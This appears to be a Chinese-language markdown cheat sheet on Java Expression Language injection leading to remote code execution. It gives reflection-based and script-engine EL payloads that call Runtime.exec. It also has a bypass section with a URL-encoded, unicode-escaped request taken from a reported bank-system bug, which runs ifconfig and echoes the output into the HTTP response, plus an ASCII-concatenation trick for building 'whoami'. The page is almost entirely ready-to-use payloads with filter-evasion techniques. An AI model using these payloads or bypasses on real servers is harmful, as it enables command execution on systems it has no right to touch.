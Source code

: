## EL表达式实现RCE

### 参考链接

https://xz.aliyun.com/t/7692#toc-20

https://y4er.com/posts/java-expression-injection/#%E8%B0%83%E7%94%A8java%E6%96%B9%E6%B3%95

### payload

利用反射实现RCE

```java
${pageContext.setAttribute("a","".getClass().forName("java.lang.Runtime").getMethod("exec","".getClass()).invoke("".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),"calc.exe"))}
```

利用js引擎实现RCE

```java
${''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('calc')")}

```

### 绕过

unicode字符，八进制，Ascii字符



[工商银行某系统存在远程EL表达式注入漏洞(命令执行)](http://cn-sec.com/archives/15356.html)

这个是通过unicode字符加字符串的拼接

```
groupName=1&papersType=${%23a%3d/u0028new%20java.lang.ProcessBuilder/u0028new%20java.lang.String[]{/u0027/sbin/ifconfig/u0027,/u0027-a/u0027}/u0029/u0029.start/u0028/u0029,%23b%3d%23a.getInputStream/u0028/u0029,%23c%3dnew%**.**.**.**.InputStreamReader/u0028%23b/u0029,%23d%3dnew%**.**.**.**.BufferedReader/u0028%23c/u0029,%23e%3dnew%20char[50000],%23d.read/u0028%23e/u0029,%23ringzero%3d%23context.get/u0028/u0027com.opensymphony.xwork2.dispatcher.HttpServletResponse/u0027/u0029,%23ringzero.getWriter/u0028/u0029.println/u0028%23e/u0029,%23ringzero.getWriter/u0028/u0029.flush/u0028/u0029,%23ringzero.getWriter/u0028/u0029.close/u0028/u0029}&papersValue=1&baseacct=1&retMsg=1&retCode=1
```

```
${#a=(new java.lang.ProcessBuilder(new java.lang.String[]{'/sbin/ifconfig','-a'})).start(),#b=#a.getInputStream(),#c=new **.**.**.**.InputStreamReader(#b),#d=new **.**.**.**.BufferedReader(#c),#e=new char[50000],#d.read(#e),#ringzero=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),#ringzero.getWriter().println(#e),#ringzero.getWriter().flush(),#ringzero.getWriter().close()}
```

Ascii字符绕过：

```
// 字符串 wh，多个cocnat嵌套构造whoami
java.lang.Character.toString(119).concat(java.lang.Character.toString(104))

```

